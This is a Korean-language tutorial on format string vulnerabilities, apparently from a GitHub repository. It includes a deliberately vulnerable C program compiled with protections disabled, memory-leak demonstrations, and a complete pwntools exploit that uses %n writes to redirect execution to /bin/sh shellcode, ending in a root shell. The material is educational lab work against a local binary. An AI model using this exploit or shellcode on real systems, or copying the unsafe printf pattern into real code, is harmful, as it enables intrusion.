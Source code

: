# **Format String Attack**

Format String은 형태를 지정해주는 문자열을 의미한다.  
형식지정자를 사용하지 않고 바로 printf() 함수에 인자를 입력받을 경우 발생하는 취약점이다.

## **Proof of Concept**

* 고정된 Stack 영역을 사용하기 위해 randomize_va_space의 값을 0으로 변경한다.

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

```c
// Vuln Code
// gcc fmt.c -m32 -fno-stack-protector -z execstack -no-pie -o fmt
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char* argv[]){
    char buf[1024];
    printf("&buf: %p\n",&buf);
    gets(buf);
    printf(buf);
    printf("n");
    return 0;
}
```

* 형식지정자 입력 시 &buf부터 차례로 Memory Leak이 발생한다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
%08x.%08x.%08x.
ffffd150.001ad23c.001ae23c.
```

* Memory Leak을 하다보면 buf의 값을 확인할 수 있다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
AAAA.0x%08x.0x%08x.0x%08x.0x%08x
AAAA.0xffffd150.0x001ad23c.0x001ae23c.0x41414141
```

* 처음에 넣은 AAAA(4Byte)가 4번째에에 출력되고 있다. 즉 네번째에 들어가는 포맷스트링은 처음 입력한 AAAA(4Byte)를 가리키는 것을 알 수 있다.  
* 따라서 "Ret Addr" + "%x%x%x" + "%n" Payload를 통해 원하는 메모리 주소에 원하는 값으로 변조할 수 있다.  
*먼저 환경변수에 x86 EggShell을 삽입 후 출력되는 Stack Address를 통해 Return Address와 EggShell Address를 계산한다.

```
gdb-peda$ p 0xffffd4ac-0xffffd090 (Return Address - Stack)
$1 = 0x41c
gdb-peda$ p 0xffffd6fc-0xffffd090 (EggShell Address - Stack)
$3 = 0x66c
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *
import os

# set eggshell
os.environ['eggshell'] = "x90"*100+"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

binary = ELF('./fmt')
p = process(binary.path)
stack_addr = int(p.recvline().split(' ')[1],16)
log.info('stack addr: '+hex(stack_addr))

ret_addr = stack_addr + 0x41c
eggshell_addr = stack_addr + 0x66c

log.info('ret addr: '+str(hex(ret_addr)))
log.info('eggshell addr: '+str(hex(eggshell_addr)))

eggshell_high = int("0x"+ str(hex(eggshell_addr))[2:6],16)
eggshell_low = int("0x"+str(hex(eggshell_addr))[6:10],16)

log.info("eggshell high: "+str(hex(eggshell_high)))
log.info("eggshell low: "+str(hex(eggshell_low)))

first_n = eggshell_low - 16 - 12
second_n = eggshell_high - 16 - 12 - first_n

payload = ""
payload += p32(ret_addr)
payload += "AAAA"
payload += p32(ret_addr+2)
payload += "%8x"*2
payload += "%"+str(first_n)+"c"+"%n"
payload += "%"+str(second_n)+"c"+"%n"

p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fmt# python exploit.py 
[*] '/root/pwnable/fmt/fmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/root/pwnable/fmt/fmt': pid 5036
[*] stack addr: 0xffffd0a0
[*] ret addr: 0xffffd4bc
[*] eggshell addr: 0xffffd70c
[*] eggshell high: 0xffff
[*] eggshell low: 0xd70c
[*] Switching to interactive mode
$ 
xbcտxffAAAAxbeտxffffffd0a0  1ad23c 
...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/fmt
```